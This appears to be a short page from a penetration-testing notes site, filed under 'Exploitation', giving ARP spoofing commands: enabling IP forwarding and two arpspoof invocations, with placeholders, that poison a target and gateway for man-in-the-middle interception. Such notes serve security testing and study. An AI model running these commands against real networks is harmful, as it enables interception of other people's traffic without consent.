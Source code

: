 ```yaml
---
layout: default
title: Spoofing
parent: Exploitation
nav_order: 1
---
```


# Spoofing
{: .no_toc }

## Table of contents
{: .no_toc .text-delta }

1. TOC
{:toc}

### ARP Spoofing

`echo 1 > /proc/sys/net/ipv4/ip_forward` - enables IP forwarding 
`arpspoof -i <int> -t <target ip addr> -r <host to spoof i.e. gw>`
`arpspoof -i <int> -r <host to spoof i.e. gw> -t <target ip addr>`


